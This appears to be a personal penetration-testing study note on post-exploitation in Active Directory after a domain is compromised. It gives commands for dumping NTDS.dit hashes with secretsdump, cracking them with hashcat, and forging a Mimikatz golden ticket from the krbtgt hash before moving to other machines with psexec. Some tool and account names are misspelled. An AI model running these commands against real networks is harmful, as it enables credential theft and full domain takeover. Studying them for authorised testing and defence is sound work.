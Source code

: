 
Now we own the domain, but what we can do?

So we have to provide as musch value to the client as possible:
- we have to put our blinders on and do it again
- we have to dump the NTDS.dit and crack the passwords
- we have to enumerate shares for sensitive info


To avoid access lost we have to create a domain admin account but hen we have to delete it.
- we can also create a Golden Ticket

we have to test for the detection of this account, if it is not detected then the client has a severe problem. It is easy to detect an account.

ALWAYS CLEAN THE ENVIRONMENT FROM STUFF WE CREATED!



# Dumping NTDS.dit file

**==This file is a database used to store Active Directory data, including:==**
- user info
- group info
- security descriptors
- password hashes


To dump it we can simply use `secretdumps` against the Domain Controller to perform this attack.

To do it we can use this command:
```bash
secretsdump.py DOMAIN/username:'PASSWORD'@DOMAIN_CONTROLLER_IP -just-dc-ntlm
```


This will give us the hashes NTLM passwords for the users.

What we want to do is to crack only the second part of the hashes:
- ![[Pasted image 20241220164805.png]]


We can copy all and use excel to split them on `:` in `DATA -> Text to columns -> delimited -> other -> :`
- ![[Pasted image 20241220165145.png]]


So we can crack all the second parts of the hashes (Column D):
```bash
hashcat -m 1000 ntds.txt rockyou.txt

hashcat -m 1000 ntds.txt rockyou.txt --show
```



Now what we can do is to organize the passwords and have the access to the users.


# Golden Ticket attacks
**==A golden ticket is a ticket that gives us the complete access to every machine in the Active Directory.==**

This can be retrieved if we are able to compromise the `krbtgt` account on the domain.


We can use minikatz to get all the info we need to perform this attack.

To do it we need:
- the KRBTGT NTLM hash (easy to get)
- domain SID 
Once we have them we can create a golden ticket we can use anywhere to access to any machine.



The KBRTGT account is used to grant the tickets generation. 


So first of all we run `minkatz` on the victim machine:
```bash
minikatz.exe

privilege::debug

lsadump::lsa /inject /name:kbrtgt

```


At this point we need to copy the SID of the domain: and the NTLM hash of kbrtgt account
- ![[Pasted image 20241220170557.png]]
- ![[Pasted image 20241220170632.png]]

At this point we can run the golden ticket attack on minikatz:
```bash
kerberos::golden /User:fakenusername /domain:DOMAIN /sid:SID_FIND_BEFORE /krbtgt:KRBTGT_HASH /id:OUR_RID /ptt
```
- ![[Pasted image 20241220171117.png]]
- `/ptt` stands for pass the ticket


Now we must succeed:
- ![[Pasted image 20241220171202.png]]


So now we run the cmd:
```bash
misc:cmd
```
- it will open a cmd with the golden ticket, so we can access everywhere
- ![[Pasted image 20241220171313.png]]


Now we can run psexec to get a machine:
```bash
psexec.exe \\PC_VICTIM cmd.exe
```



**==SO basically to use this attack we need to know the:==**
- **==NTLM hash of the KRBTGT account that is responsible to sign the tickets==**
- **==SID of the domain that identify the domain==**
- ==**an user RID (the user id we want impersonate)**==